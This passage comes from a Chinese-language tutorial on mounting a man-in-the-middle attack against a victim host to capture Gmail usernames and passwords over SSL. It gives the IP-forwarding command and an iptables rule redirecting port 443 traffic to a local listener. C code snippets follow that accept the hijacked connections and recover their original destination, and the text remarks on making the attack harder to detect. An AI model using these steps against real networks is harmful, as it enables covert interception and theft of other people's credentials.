 到此，我们便成功的劫持了主机B发出的流量。也许读者会问，作为中间人不是需要劫持通信双方的流量吗，为什么只欺骗主机B，却不欺骗网关呢。实际上，在我们设计的这个场景中，欺骗网关并不是必须的，我们的目的是当用户连接gmail时获得用户名密码，连接gmail使用的SSL连接是由主机B发起的，到了主机A后，流量被劫持，所以google的服务器实际上就是在和主机A通信，不需要劫持网关就能得到服务器的数据。但如果劫持网关的话，可以防止主机B在使用其他协议时出现异常，使得中间人攻击更隐蔽，更不容易被发现。

2. 成为中间人
单纯劫持主机B后，主机B便不能上网了，这样主机B很容易发现问题，所以我们还要进一步处理，将劫持的流量发往网关。通过集成在linux内核中集成的 IP 信息包过滤系统iptables可以实现我们的目的。
  
Iptables包括很多个过滤表，每个过滤表中可以包括多个规则链，每个规则链中还可以包括很多的过滤规则，是一个十分强大的IP信息包过滤系统。开启iptables的IP转发的方法是执行下面的命令：
  
  `echo 1 > /proc/sys/net/ipv4/ip_forward`
  
开启了IP转发之后，iptables将在linux内核中进行IP转发，本地的IP报文将交给本地的程序处理，不是本地的IP报文将通过查找内核中的路由表进行转发。由于我们没有设置路由表，非本地的IP报文默认被转发到网关。 
  
然后，在iptables的nat表中的PREROUTING链中添加一个规则，将tcp流量中目的端口为443（即SSL连接）的流量转发到本地的8888端口，以便本地程序进行处理。
  
  `iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8888`
  
nat表，顾名思义，就是在做NAT（Network Address Translation）时需要用到的表，而PREROUTING链，就是在查找路由表之前会进行匹配的过滤规则链。但是我们使用它们并不是做NAT，而是使用了nat表中PREROUTING链的REDIRECT功能，即在linux内核查找路由表之前，将符合条件的IP报文的源地址修改为本地，并将源端口修改为8888。
  
进行到此，我们已经成为主机B和服务器中的中间人了。而主机B现在可以连接http，但却不能连接https，因为SSL的流量都被转发到主机A的本地端口8888了，但还没有本地程序会处理它。下面，我们将编写本地程序完成劫持。

3. 与主机B建立socket连接
我们使用socket监听8888端口，以便等待主机B的连接。该部分封装到了socket_to_client_init函数中。 
  
```
  int socket_to_client_init(short int port) {
  ……
  // 初始化一个socket，
  sockfd = socket(AF_INET, SOCK_STREAM, 0);
  ……
  // 将该socket绑定到8888端口上，
  addr.sin_port = htons(port);
  bind(sockfd, (struct sockaddr*) &addr, sizeof(struct sockaddr);
  ……
  // 然后监听该端口。
  listen(sockfd, LISTEN_BACKLOG);
  ……
  }
```

当主机B发起一个SSL连接时，我们在本地8888端口就可以监听到连接，这时我们接受这个连接，并获得该链接的原始目的地址，以便后续连接服务器时使用。该部分封装到了get_socket_to_client函数中。

```
int get_socket_to_client(int socket, struct sockaddr_in* original_server_addr) {
  ……
  // 接受这个连接，
client_fd = accept(socket, (struct sockaddr *) &client_addr, &client_size);
  ……
// 通过getsockopt函数获得socket中的SO_ORIGINAL_DST属性，得到报文被iptables重定向之前的原始目的地址。使用SO_ORIGINAL_DST属性需要包括头文件。
// 值得注意的是，在当前的情景下，通过getsockname等函数是无法正确获得原始的目的地址的，因为iptables在重定向报文到本地端口时，已经将IP报文的目的地址修改为本地地址，所以getsockname等函数获得的都是本地地址而不是服务器的地址。
getsockopt(client_fd, SOL_IP, SO_ORIGINAL_DST, original_server_addr, &server_size)
……
}
```

